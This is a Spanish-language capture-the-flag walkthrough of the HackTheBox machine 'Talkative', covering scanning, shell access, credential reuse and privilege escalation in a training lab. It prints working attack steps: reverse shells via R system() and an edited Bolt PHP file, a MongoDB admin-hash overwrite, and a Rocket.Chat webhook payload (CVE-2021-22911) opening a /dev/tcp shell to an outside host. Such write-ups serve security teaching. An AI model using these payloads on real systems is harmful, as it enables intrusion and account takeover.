Resolución de la máquina Talkative de la plataforma de HackTheBox
Iniciamos escaneando los puertos de la máquina con nmap
❯ nmap 10.10.11.155
Nmap scan report for 10.10.11.155
PORT STATE SERVICE
80/tcp open http
3000/tcp open ppp
8080/tcp open http-proxy
8081/tcp open blackice-icecap
8082/tcp open blackice-alerts
Si enviamos un curl a 10.10.11.155 nos redirige a http://talkative.htb
❯ curl 10.10.11.155
301 Moved Permanently
The document has moved <a href="https://talkative.htb/">here</a>
Al no haber nada interesante por ahora en el 80 iniciamos en el 8080 donde en el apartado de rjeditor podemos probar ejecutar un id con system() e intern=TRUE para ver la respuesta

Ejecutamos con ctrl + shift + enter y en la respuesta vemos que se ejecuta

Sabiendo esto nos hacemos una reverse shell

Ejecutamos y si estamos en escucha con netcat la recibimos, encontramos un archivo omv en el home
❯ sudo netcat -lvnp 443
Connection received on 10.10.11.155
root@b06821bbda78:~# ls
Documents bolt-administration.omv
root@b06821bbda78:~#
Tenemos un problema, y es que no tiene nc o algo que nos sirva para enviarnos el archivo asi esta vez usaremos pwncat-cs enviamos la shell y descargamos el archivo
❯ sudo pwncat-cs -lp 443
Welcome to pwncat 🐈!
received connection from 10.10.11.155
10.10.11.155: registered new host w/ db
(local) pwncat$ download /root/bolt-administration.omv bolt-administration.omv
/root/bolt-administration.omv ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 2.2/2.2 KB
downloaded 2.19KiB in 0.00 seconds
(local) pwncat$
Ahora que tenemos el archivo podemos ver que es un zip, entonces lo descomprimimos y vemos un archivo que contiene credenciales
❯ file bolt-administration.omv
bolt-administration.omv: Zip archive data, at least v2.0 to extract
❯ unzip bolt-administration.omv
❯ cat xdata.json | jq
{
"A": {
"labels": [
[
0,
"Username",
"Username",
false
],
[
1,
"matt@talkative.htb",
"matt@talkative.htb",
false
],
[
2,
"janit@talkative.htb",
"janit@talkative.htb",
false
],
[
3,
"saul@talkative.htb",
"saul@talkative.htb",
false
]
]
},
"B": {
"labels": [
[
0,
"Password",
"Password",
false
],
[
1,
"jeO09ufhWD<s",
"jeO09ufhWD<s",
false
],
[
2,
"bZ89h}V<S_DA",
"bZ89h}V<S_DA",
false
],
[
3,
")SQWGm>9KHEA",
")SQWGm>9KHEA",
false
]
]
},
"C": {
"labels": []
}
}
Si aplicamos una pequeña expresión podemos quedarnos solo con usuarios y contraseñas
❯ cat xdata.json | jq | grep '"*",' | awk '{print $1}' | tr -d "\"," | sed 's/@talkative.htb//g' | grep -vE "U|P" | uniq
matt
janit
saul
jeO09ufhWD<s
bZ89h}V<S_DA
)SQWGm>9KHEA
Si miramos el nombre del archivo hay algo de bolt y con whatweb encontramos lo mismo, podemos pensar que hay una ruta /bolt en el puerto 80, podriamos usar fuerza bruta pero no es necesario
❯ whatweb http://talkative.htb/
MetaGenerator[Bolt]
X-Powered-By[PHP/7.4.28, Bolt]
Entonces en http://talkative.htb/bolt, encontramos que la contraseña "jeO09ufhWD<s" es valida pero para admin

Una vez iniciamos sesión encontramos un "All configuration files" asi que damos clic

Vemos varios archivos entre ellos "blundes.php" asi que damos clic en el

¡Podemos editarlo! asi que usaremos la función system para enviarnos una reverse shell

Una vez cambiamos el php, guardamos cambios y basta con recargar la pagina para recibir una shell en nuestro netcat
❯ sudo netcat -lvnp 443
Connection received on 10.10.11.155
www-data@c09bd9dee948:~$
Estamos como www-data en otro contenedor, como nuestra ip es 172.17.0.10 supongo que existe la 172.17.0.1, bueno, tendremos que pensar que si ...
www-data@c09bd9dee948:~$ hostname -I
172.17.0.10
www-data@c09bd9dee948:~$ ping -c1 172.17.0.1
bash: ping: command not found
www-data@c09bd9dee948:~$
Podemos probar las contraseñas y usuarios de antes, y saul reutiliza la contraseña "jeO09ufhWD<s"
www-data@c09bd9dee948:~$ ssh saul@172.17.0.1
saul@172.17.0.1's password: jeO09ufhWD<s
saul@talkative:~$ cat user.txt
850**************************2a4
saul@talkative:~$
Ahora buscando formas de escalar privilegios con pspy encontramos lo siguiente
CMD: UID=0 PID=4894 | /bin/sh -c python3 /root/.backup/update_mongo.py
El puerto por defecto de mongo es 27017 que con netstat vemos que esta en la 172.17.0.2
saul@talkative:~$ netstat -nat
<...........................................................................>
tcp 0 0 172.17.0.1:43752 172.17.0.2:27017 TIME_WAIT
<...........................................................................>
saul@talkative:~$
Con chisel tunelizaremos el puerto 27017 de la 172.17.0.2 a nuestro localhost
❯ chisel server --reverse --port 8000
2022/06/14 22:17:01 server: Reverse tunnelling enabled
2022/06/14 22:17:01 server: Listening on http://0.0.0.0:8000
2022/06/14 22:18:03 server: session#1: tun: proxy#R:27017=>172.17.0.2:27017: Listening
saul@talkative:~$ ./chisel client 10.10.14.10:8000 R:27017:172.17.0.2:27017
2022/06/15 03:18:01 client: Connecting to ws://10.10.14.10:8000
2022/06/15 03:18:03 client: Connected
Nos conectaremos a mongosh y con este ejemplo cambiaremos la contraseña de admin del puerto 3000, que es un rocketchat
❯ mongosh mongodb://127.0.0.1:27017
Current Mongosh Log ID: 62a94faa5d321f37e77344f9
Connecting to: mongodb://127.0.0.1:27017/mongosh+1.3.1
Using MongoDB: 4.0.26
Using Mongosh: 1.3.1
rs0 [direct: primary] test> show databases
admin 106 kB
config 127 kB
local 11.9 MB
meteor 4.87 MB
rs0 [direct: primary] test> use meteor
switched to db meteor
rs0 [direct: primary] meteor> db.getCollection('users').update({username:"admin"}, { $set: {"services" : { "password" : {"bcrypt" : "$2a$10$n9CM8OgInDlwpvjLKLPML.eizXIzLlRtgCh3GRLafOdR9ldAUh/KG" } } } })
{
acknowledged: true,
insertedId: null,
matchedCount: 1,
modifiedCount: 1,
upsertedCount: 0
}
rs0 [direct: primary] meteor>
Ahora que la cambiamos nos conectamos a talkative.htb:3000 como admin con la contraseña "12345"
Una vez iniciamos sesión iremos a el apartado administración y daremos clic en integreaciones

Daremos clic a nueva integración

Crearemos un WebHook entrante

Tenemos que habilitarlo y cambiar algunas cosas como nombre, canal y usuario

Abajo podemos alojar un script usaremos la primera linea de el CVE-2021-22911 y en la segunda una reverse shell, en este caso creada con la herramienta de 0bfxgh0st
Al final quedaria algo asi
const require = console.log.constructor('return process.mainModule.require')();
require('child_process').exec('bash -c "bash -i >& /dev/tcp/10.10.14.10/443 0>&1"');
Lo pegaremos en la parte de abajo y lo habilitaremos

Guardamos y despues buscaremos la url con el token

Hacemos un curl y recibiremos la shell en nuestro netcat de nuevo en un contenedor
❯ curl http://talkative.htb:3000/hooks/vbMEso8HDmzn2GA63/dvk8MyRaWRfwjdJXHc5wDAWSRHy48tNtn5X44Wgc2Yjipzqw
{"success":false}
❯ sudo netcat -lvnp 443
Connection received on 10.10.11.155
root@c150397ccd63:/app/bundle/programs/server# hostname -I
172.17.0.3
root@c150397ccd63:/app/bundle/programs/server#
Podemos utilizar cdk para conseguir archivos de la máquina real, lo subiremos con pwncat-cs, lo ejecutamos y conseguimos la flag de root
❯ sudo pwncat-cs -lp 443
Welcome to pwncat 🐈!
received connection from 10.10.11.155
10.10.11.155: registered new host w/ db
(local) pwncat$ upload cdk_linux_amd64 /root/cdk
/root/cdk ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 11.9/11.9 MB
uploaded 11.9 MB in 0.00 seconds
(local) pwncat$ back
(remote) root@c150397ccd63:/app/bundle/programs/server# cd /root
(remote) root@c150397ccd63:/root# bash
root@c150397ccd63:~# chmod +x cdk
root@c150397ccd63:~# ./cdk run cap-dac-read-search /root/root.txt
Running with target: /root/root.txt, ref: /etc/hostname
6ae**************************b91
root@c150397ccd63:~#